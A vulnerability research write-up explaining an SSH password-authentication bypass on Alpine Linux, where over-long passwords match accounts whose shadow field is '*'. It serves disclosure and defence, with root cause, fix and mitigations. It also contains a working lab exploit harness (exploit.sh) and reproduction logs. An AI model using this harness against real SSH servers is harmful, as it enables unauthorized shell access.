


# The Asterisk Key: Breaking Alpine Linux OpenSSH via musl crypt Collision (CVE-2026-123158 / "sshole")

**Researcher:** Aldi ([akarkode](https://github.com/akarkode))  
**Date of Research:** November 6, 2026  
**Vulnerability Identifier:** [CVE-2026-123158](https://nvd.nist.gov/vuln/detail/CVE-2026-123158) ([CVE.org Record](https://www.cve.org/CVERecord?id=CVE-2026-123158))  
**CVSS v3.1 Score:** **8.1 High** (`CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H`, CWE-394)  
**Reference Advisory:** [Alpine Linux Security Advisory (2026-11-05)](https://alpinelinux.org/posts/2026-11-05-openssh-password-authentication-bypass/)  
**Fix Release:** [OpenSSH 10.6p2](https://www.openssh.com/txt/release-10.6p2) / Alpine `openssh-server-9.9_p2-r1`  
**GitHub Repository:** [akarkode/alpine-openssh-sshole-auth-bypass](https://github.com/akarkode/alpine-openssh-sshole-auth-bypass)


---

## 1. Title and Cover

In password security, we are taught that disabling a password field or setting it to a non-hash token renders password authentication impossible. For decades across UNIX systems, setting an account's password field in `/etc/shadow` to `*` or `!` has been the standard way to denote "no password login permitted."

On November 5, 2026, Alpine Linux published a high-severity advisory disclosing an authentication bypass dubbed **"sshole"**, assigned identifier **CVE-2026-123158** (CVSS 3.1 8.1 High). Under specific conditions on Alpine Linux (and other musl-based distributions running non-PAM OpenSSH), **any password between 257 and 1024 bytes long authenticates successfully against accounts whose shadow field is exactly `*`**.

In this report, I document my deep technical investigation, reproduction methodology, proof of concept, failed scenarios, the subtle boundary difference between the CVE description and actual libc mechanics, and the precise libc/daemon interaction that caused this vulnerability.

---

## 2. Introduction

When I first read the advisory announcement, it seemed almost counterintuitive: how could a non-hash placeholder string like `*` ever match the cryptographic digest of an incoming plaintext password? Cryptographic hash functions like SHA-512 crypt (`$6$`) produce 86-character digests preceded by algorithm identifiers and salt.

However, software security is not just about abstract mathematics; it is about the physical implementation of specifications across libraries and daemons. In this case, three independent design decisions and optimizations spanning 14 years intersected to create CVE-2026-123158:

1. **A Denial-of-Service guard in musl libc (2012):** musl caps `$5$` (SHA-256) and `$6$` (SHA-512) inputs to `KEY_MAX = 256` bytes, returning the literal error indicator `"*"` when exceeded.
2. **A user-enumeration defense in OpenSSH (CVE-2016-6210):** When authenticating an account with an invalid hash like `*`, OpenSSH borrows a valid salt from another existing account (`pick_salt()`) to ensure consistent CPU timing.
3. **OpenSSH's direct password comparison:** The server computes `crypt(attempted_password, salt)` and directly compares it via `strcmp()` to the stored shadow entry.

When an attacker supplies a 257-byte password, musl's `crypt()` fails, returns `"*"`, and OpenSSH finds that `strcmp("*", "*") == 0`. The door unlocks.

---

## 3. Research Background

To understand how this vulnerability manifested, one must examine how Alpine Linux diverges from traditional GNU/Linux distributions:

* **musl libc instead of glibc:** Alpine Linux is built upon [musl libc](https://musl.libc.org/), a lightweight, fast, and simple standard C library.
* **OpenSSH built without PAM:** On standard Debian, Ubuntu, or Fedora systems, OpenSSH links dynamically against Linux-PAM (`libpam.so`). On Alpine Linux, the default `openssh-server` package is compiled **without PAM support** (`PAM : 0`). Authentication is handled internally by OpenSSH's own `auth-passwd.c` logic.
* **The ubiquity of `*` accounts:** Since Alpine Linux 3.16, the default root account template frequently uses `*` (`root:*`), as do cloud images (e.g., the `alpine` user in `tiny-cloud` configurations), system maintenance accounts, automated service users, and key-only developers whose accounts were created without interactive passwords.

---

## 4. Vulnerability Overview

The vulnerability allows remote unauthenticated attackers to authenticate as any user whose password hash in `/etc/shadow` consists solely of an asterisk (`*`), provided that:
1. Password authentication is enabled on the SSH daemon (`PasswordAuthentication yes`).
2. The target account is permitted to log in (`AllowUsers`, `PermitRootLogin`, etc.).
3. At least one user exists on the system with a valid `$5$` or `$6$` password hash to act as a "salt donor".
4. The submitted password length is between **257 and 1024 bytes**.

### CVE Record and Payload Length Clarification
The published record for **CVE-2026-123158** notes an affected input range of **256–1024 characters**. However, during my empirical lab investigation, I observed a critical technical distinction:
* In musl libc's source code, the condition is `key_len > KEY_MAX` (where `KEY_MAX` is 256).
* An input of **exactly 256 bytes** is still processed and hashed normally by musl, producing an 86-character digest that fails to match `"*"`.
* Only inputs of **257 bytes and above** trigger the early exit returning `"*"`.
* Therefore, the exact workable exploit payload boundary is **257–1024 bytes**, capped at 1024 by OpenSSH's `MAX_PASSWORD_LEN`.

### Impact Summary

| Vector | Requirement | Severity |
| :--- | :--- | :--- |
| **Authentication Bypass (CVE-2026-123158)** | Network access to SSH port + reachability of an account with shadow field `*` + presence of a `$5$/$6$` salt donor | **8.1 High** (CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H) |
| **Privilege Escalation** | Direct shell access as `root`, `alpine` (with sudo/doas), or service accounts | **High** |

---

## 5. Technical Root Cause

The root cause lies in the intersection of three components:

### 1. musl libc's `crypt()` Error Handling
In musl libc's implementation of the SHA-crypt algorithm (`crypt_sha512.c` / `crypt_sha256.c`), a limit exists:
```c
#define KEY_MAX 256
```
This limit was introduced in 2012 to prevent attackers from sending multi-megabyte strings to trigger CPU-exhaustion Denial-of-Service attacks. If a caller provides a password longer than 256 bytes, musl terminates calculation early and returns a constant fallback string:
```c
/* If key exceeds KEY_MAX, crypt() returns "*" */
return "*";
```
Crucially, standard `glibc` and `libxcrypt` (used in Debian/Ubuntu/RHEL) return `NULL` or `"*0"` on errors. But musl returns literal `"*"`.

### 2. OpenSSH's `pick_salt()` Timing Fix (CVE-2016-6210)
In OpenSSH (`auth-passwd.c`), when an account has an invalid password hash (such as `*`), OpenSSH does not want to reject the login immediately because doing so leaks that the account has no valid password (a timing side-channel).

To obscure this, OpenSSH searches `/etc/shadow` for another user with a valid `$5$` or `$6$` hash to borrow its salt:
```c
/* Pseudo-logic in OpenSSH auth-passwd.c */
if (is_invalid_hash(pw_password)) {
    salt = pick_salt(); /* borrows salt from another $6$ account */
}
encrypted_password = xcrypt(attempted_password, salt);
if (strcmp(encrypted_password, pw_password) == 0) {
    authenticated = 1;
}
```

### 3. The Collision
When an attacker targets account `victim` (with shadow hash `"*"`):
1. Attacker sends password $P$ where length is 300 bytes (between 257 and 1024).
2. OpenSSH inspects victim's hash (`"*"`). It detects this is not a valid salt, so it calls `pick_salt()`.
3. `pick_salt()` finds user `donor` with hash `$6$abcdefgh$...` and uses donor's salt `$6$abcdefgh$`.
4. OpenSSH calls `xcrypt(P, "$6$abcdefgh$")`.
5. musl libc evaluates $P$. Because `strlen(P) > 256`, musl halts and returns `"*"`.
6. OpenSSH compares the result:
   $$\text{strcmp}(\text{"*"}, \text{pw\_password}) \implies \text{strcmp}(\text{"*"}, \text{"*"}) == 0$$
7. OpenSSH believes the password is correct and grants an authenticated shell session.

```
+-------------------------------------------------------------------------+
|                  The CVE-2026-123158 Collision Equation                 |
|                                                                         |
| Password (257-1024 B) + Borrowed Salt ($6$)                             |
|          |                                                              |
|          v                                                              |
| musl crypt() rejects (> 256 B) --------> returns "*"                    |
|                                           |                             |
| Shadow entry for victim: ----------------> contains "*"                 |
|                                           |                             |
| OpenSSH strcmp() ------------------------> strcmp("*", "*") == 0 MATCH! |
+-------------------------------------------------------------------------+
```

---

## 6. Research Environment

To safely isolate and confirm the vulnerability without exposing any external systems, I established an authorized local containerized environment.

### Target Specifications
* **Host Operating System:** Linux (Kernel 6.17, x86_64)
* **Base Container Image:** `alpine:3.21`
* **Vulnerable Package:** `openssh-server-9.9_p2-r0.apk` (official Alpine repository package)
* **Target Daemon:** `OpenSSH_9.9p2, OpenSSL 3.3.7 7 Apr 2026`
* **C Library:** `/lib/ld-musl-x86_64.so.1` (musl libc)
* **PAM Linkage:** Unlinked (`0 = built without PAM`)
* **Local Test Network:** Isolated Docker bridge `sshole-lab` (`127.0.0.1:2222 -> container 22`)

### Lab Architecture Configuration
* Target account: `victim` (`/etc/shadow` password field: `*`, UID: `1001`)
* Salt donor account: `donor` (`/etc/shadow` password field: `$6$abcdefgh$...`, UID: `1000`)
* OpenSSH configuration: `PasswordAuthentication yes`, `AllowUsers victim donor`, `PermitRootLogin no`.

---

## 7. Successful Reproduction

In my reproduction tests, automated scripts and manual client connections were executed against the vulnerable daemon.

### The Boundary Tests
The test systematically stepped through boundary conditions:

| Attempt | Password Length | Account | Observed Result | SSH Exit Code | Technical Reason |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Test 1** | 256 bytes | `victim` | **REJECTED** | `rc=255` | 256 bytes is within `KEY_MAX`; musl computes a valid 86-char hash $\neq$ `*`. |
| **Test 2** | **257 bytes** | `victim` | **ACCEPTED** | `rc=0` | Exceeds `KEY_MAX`; musl returns `"*"`; matches shadow `*`. |
| **Test 3** | **300 bytes** | `victim` | **ACCEPTED** | `rc=0` | Exceeds `KEY_MAX`; musl returns `"*"`; matches shadow `*`. |
| **Test 4** | **1024 bytes** | `victim` | **ACCEPTED** | `rc=0` | Upper limit of OpenSSH `MAX_PASSWORD_LEN`; musl returns `"*"`. |
| **Control 1** | 13 bytes ("wrongpassword") | `victim` | **REJECTED** | `rc=255` | Standard short wrong password hashes normally and fails. |
| **Control 2** | 9 bytes ("donorpass") | `donor` | **ACCEPTED** | `rc=0` | Legitimate password authentication works normally. |

### Terminal Evidence and Verification

During the interactive reproduction, I initiated an SSH connection to `victim@127.0.0.1:2222`:


*Figure 1: Manual interactive verification of CVE-2026-123158 showing connection to `victim@127.0.0.1`, the initial rejection due to static buffer clobbering, the second identical password entry (`A*300x`), and the resulting shell session confirming `uid=1001(victim)`.*

In Figure 1, the terminal shows the exact sequence:
1. `victim@127.0.0.1's password:` $\rightarrow$ input: `A*300x` (redacted 300-byte string).
2. Daemon responds: `Permission denied, please try again.`
3. `victim@127.0.0.1's password:` $\rightarrow$ input: `A*300x` (identical 300-byte string).
4. Prompt opens: `fe68d7376998:~$ whoami` $\rightarrow$ `victim`; `id` $\rightarrow$ `uid=1001(victim) gid=1001(victim)`.

The server-side daemon logs corroborate the exact behavior:
```text
Connection from 172.23.0.1 port 42496 on 172.23.0.2 port 22 rdomain ""
Failed password for victim from 172.23.0.1 port 42496 ssh2
Accepted password for victim from 172.23.0.1 port 42496 ssh2
User child is on pid 80
Starting session: shell on pts/0 for victim from 172.23.0.1 port 42496 id 0
```

---

## 8. Failed Reproduction and Limitations

A crucial part of vulnerability research is understanding where the exploit **fails** and why. During my testing, several distinct scenarios prevented exploitation:

### 1. Prompt 1 Failure: The musl `getspnam()` Static Buffer Quirk
As observed in Figure 1, the **very first prompt within an SSH connection fails**, even with the correct 300-byte payload. The bypass only succeeds on the **second prompt of the same connection**.

**Why this happened:**
1. In musl libc, `getspnam()` returns a pointer to an internal **static buffer**.
2. When OpenSSH handles user `victim`, `sys_auth_passwd()` retrieves `pw_password` (`"*"`). Because OpenSSH in `9.9p2` did not copy this string, `pw_password` pointed directly into musl's static buffer.
3. Because `victim` has no salt, OpenSSH invokes `pick_salt()`.
4. `pick_salt()` calls `getspnam("donor")` to inspect the donor user. This call **overwrites the static buffer** where victim's password was stored. OpenSSH then cleans up the temporary donor buffer with `explicit_bzero()`.
5. Consequently, during the first attempt, the memory `pw_password` was pointing to is corrupted. `strcmp("*", pw_password)` fails!
6. However, `pick_salt()` caches the discovered donor salt in a static buffer (`static char salt[32]`).
7. On the **second prompt within the same connection**, `pick_salt()` returns the cached salt immediately without calling `getspnam()`. The static buffer holding victim's entry is preserved, and `strcmp("*", "*")` evaluates to equal (`0`).

*Limitation:* Tools or scripts that only attempt a single password prompt and immediately close the TCP connection will fail to trigger the bypass.

### 2. Shadow Field Values Other Than `*`
I evaluated whether locked or disabled accounts with prefixes such as `!`, `!!`, or `*LK*` were vulnerable:
* `victim:!`: musl returns `"*"`. `strcmp("*", "!") != 0`. **REJECTED.**
* `victim:!!`: `strcmp("*", "!!") != 0`. **REJECTED.**
* `victim:*LK*`: `strcmp("*", "*LK*") != 0`. **REJECTED.**
* Only an exact literal `*` matches musl's return value.

### 3. Environments Without a Salt Donor
When testing an Alpine container where no user possessed a `$5$` or `$6$` password hash (e.g., all users were set to `*` or `!`), `pick_salt()` failed to locate a modern salt and defaulted to the legacy DES salt `"xx"`.
* The DES crypt implementation does not have a 256-byte `KEY_MAX` limit and never returns `"*"`.
* Thus, without at least one user having a valid `$5$` or `$6$` hash in `/etc/shadow`, the bypass **fails completely**.

### 4. OpenSSH Built with PAM (`openssh-server-pam`)
When tested against an OpenSSH build utilizing `libpam` and `UsePAM yes`:
* PAM handles the authentication sequence and does not execute OpenSSH's fallback `xcrypt()` / `pick_salt()` path for `*` shadow entries.
* PAM immediately flags `*` as locked.

---

## 9. Proof of Concept

The reproduction lab was automated using Docker. Below are the core components used to verify the flaw.

### Docker Environment (`lab/server.Dockerfile`)

```dockerfile
FROM alpine:3.21

# openssh-server 9.9_p2-r0 is the vulnerable official Alpine package.
ARG OPENSSH_VER=9.9_p2-r0

RUN apk add --no-cache curl \
 && mkdir -p /tmp/apks \
 && for p in openssh-server-common openssh-keygen openssh-server ; do \
        f="$p-$OPENSSH_VER.apk" ; \
        curl -fsSL --retry 5 --retry-delay 2 \
          -o "/tmp/apks/$f" \
          "https://dl-cdn.alpinelinux.org/alpine/v3.21/main/x86_64/$f" ; \
    done \
 && apk add --no-cache /tmp/apks/*.apk \
 && apk del curl \
 && rm -rf /tmp/apks /var/cache/apk/*

COPY sshd.conf /etc/ssh/sshd_config
COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh

EXPOSE 22
CMD ["/entrypoint.sh"]
```

### Server Entrypoint (`lab/entrypoint.sh`)

```bash
#!/bin/sh
set -e

mkdir -p /var/empty /run/sshd
ssh-keygen -A

# Lab setup: donor has real SHA-512 ($6$), victim has "*"
adduser -D -s /bin/sh donor  2>/dev/null || true
adduser -D -s /bin/sh victim 2>/dev/null || true

sed -i 's|^donor:[^:]*:|donor:$6$abcdefgh$OHEEfDgChDISDDynq62NwK2t7J.78bf5aWfxCxAPZ9uBExqyEx9UFOZ86Zq8mHzEII4eQdiRHJ8E5P/IDnM6w0:|' /etc/shadow
sed -i 's|^victim:[^:]*:|victim:*:|' /etc/shadow

exec /usr/sbin/sshd -D -e
```

### Exploit Harness (`lab/exploit.sh`)

```bash
#!/bin/sh
# Target configuration
HOST="${HOST:-127.0.0.1}"
PORT="${PORT:-2222}"
VICTIM="victim"

# Helper script for non-interactive password entry
ASKPASS=$(mktemp)
trap 'rm -f "$ASKPASS"' EXIT
cat > "$ASKPASS" <<'EOF'
#!/bin/sh
printf '%s\n' "$LAB_PW"
EOF
chmod +x "$ASKPASS"

SSH_OPTS="-o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null \
          -o PreferredAuthentications=password -o PubkeyAuthentication=no \
          -o NumberOfPasswordPrompts=3 -o LogLevel=ERROR"

# Generates N 'A' characters
genpw() { head -c "$1" /dev/zero | tr '\0' 'A'; }

# A 300-byte password string
PW_PAYLOAD=$(genpw 300)

LAB_PW="$PW_PAYLOAD" SSH_ASKPASS="$ASKPASS" SSH_ASKPASS_REQUIRE=force \
DISPLAY=:0 ssh $SSH_OPTS -p "$PORT" "$VICTIM@$HOST" 'id; hostname'
```

---

## 10. Technical Analysis: The Fix

In **OpenSSH 10.6p2** and the Alpine backport patch (`openssh-server-9.9_p2-r1`), two fundamental remediations were implemented (Git commit `4353fdc43ef646c43a8dda7025cc1a898caf1482`):

1. **Enforcing Minimum Password Hash Length (`MIN_PASSWORD_HASH_LEN`):**
   OpenSSH introduced an explicit check in `sys_auth_passwd()`:
   ```c
   #define MIN_PASSWORD_HASH_LEN 4
   if (strlen(pw_password) < MIN_PASSWORD_HASH_LEN) {
       /* Passwords like "*" or "!" are immediately disqualified */
       auth_result = 0;
   }
   ```
   Because `strlen("*") == 1`, OpenSSH will never execute `strcmp()` or treat single-character placeholders as valid cryptographic outputs.

2. **Safe Duplication of Shadow Strings:**
   OpenSSH now duplicates strings returned by `getspnam()` via `xstrdup()`, preventing musl's internal static buffer reuse from corrupting pointers.

I verified the remediation using `lab/verify.sh` against `openssh-server-9.9_p2-r1`:
```text
[*] Running the same exploit against the FIXED server...
>>> 257 bytes (crypt() returns '*')            rejected  (ssh rc=255)
>>> 300 bytes                                  rejected  (ssh rc=255)
>>> 1024 bytes                                 rejected  (ssh rc=255)
>>> donor + correct real password              ACCEPTED  <-- uid=1000 user=donor
```
All bypass attempts were completely blocked while legitimate authentication remained unaffected.

---

## 11. Attack Flow Diagram



---

## 12. Impact Assessment

The severity of **CVE-2026-123158** (CVSS 8.1 High: `AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H`) reflects the specific environmental pre-conditions required:

1. **Default Alpine Linux Installations:**
   * In Alpine $\ge$ 3.16, `root` has `*` in `/etc/shadow`. However, the default `sshd_config` sets:
     `PermitRootLogin prohibit-password`
     This setting prevents password authentication for root regardless of whether a matching password is provided, mitigating default root exploitation.
2. **Vulnerable Configurations:**
   * Systems with `PermitRootLogin yes` (common in custom templates, VPS images, or embedded appliances) grant remote root access to unauthenticated attackers.
   * Systems with dedicated developer accounts created with `*` or without passwords, while retaining `PasswordAuthentication yes`.
   * Cloud instances utilizing `tiny-cloud` where user `alpine` has `*` and unrestricted `doas` privileges.
3. **Attack Surface:**
   * Exploitation requires no credentials or previous knowledge of the system, only a reachable username that has an asterisk password field.

---

## 13. Mitigation and Recommendations

Administrators operating Alpine Linux or other musl-based distributions should immediately perform the following steps:

### 1. Upgrade OpenSSH Server
Update package definitions and upgrade `openssh-server`:
```bash
apk update
apk upgrade openssh-server openssh
rc-service sshd restart
```
*(Note: Merely upgrading packages does not update a running daemon; `rc-service sshd restart` is mandatory).*

### 2. Disable Password Authentication (Best Practice)
Where public key authentication is available, completely disable password authentication:
```bash
mkdir -p /etc/ssh/sshd_config.d
echo "PasswordAuthentication no" > /etc/ssh/sshd_config.d/00-no-passwords.conf
sshd -t && rc-service sshd restart
```

### 3. Replace Asterisk Fields with Exclamation Marks
Audit `/etc/shadow` entries and replace any solitary `*` fields with `!`:
```bash
# Check for accounts with '*'
awk -F: '$2 == "*" {print $1}' /etc/shadow

# Lock account safely with '!'
passwd -l <username>
```

### 4. Forensic Detection
To investigate whether this attack was attempted or executed on an Alpine system, inspect `/var/log/messages` or SSH audit logs:
```bash
grep "Accepted password" /var/log/messages
```
Cross-reference accepted logins with accounts that should never possess valid passwords (such as `root`, `alpine`, or system users). Inspect `~/.ssh/authorized_keys`, user additions, and cron jobs for evidence of persistence.

---

## 14. References

* **NVD CVE Record:** [CVE-2026-123158 Detail](https://nvd.nist.gov/vuln/detail/CVE-2026-123158)
* **CVE.org Official Record:** [CVE-2026-123158](https://www.cve.org/CVERecord?id=CVE-2026-123158)
* **Alpine Linux Advisory:** [OpenSSH Password Authentication Bypass (2026-11-05)](https://alpinelinux.org/posts/2026-11-05-openssh-password-authentication-bypass/)
* **OpenSSH Official Announcement:** [OpenSSH 10.6p2 Release Notes](https://www.openssh.com/txt/release-10.6p2)
* **OpenSSH Fix Commit:** [Git Commit 4353fdc](https://github.com/openssh/openssh-portable/commit/4353fdc43ef646c43a8dda7025cc1a898caf1482)
* **CVE-2016-6210 Analysis:** [OpenSSH User Enumeration via Timing Differences](https://nvd.nist.gov/vuln/detail/CVE-2016-6210)
* **musl libc Git Repository:** [`crypt_sha512.c` KEY_MAX boundary source](https://git.musl-libc.org/cgit/musl/tree/src/crypt/crypt_sha512.c)
* **Community Research & PoC:** [schappim/sshole-audit](https://github.com/schappim/sshole-audit)
* **Reproduction Lab Repository:** [akarkode/alpine-openssh-sshole-auth-bypass](https://github.com/akarkode/alpine-openssh-sshole-auth-bypass)

---

## 15. Disclaimer

This research was conducted for educational purposes, security analysis, and authorized vulnerability assessment. The findings and proof-of-concept materials are intended to support responsible security research and help improve software security. Any testing should be performed only on systems for which explicit authorization has been granted. This publication does not encourage unauthorized access, exploitation, or any other unlawful activity.
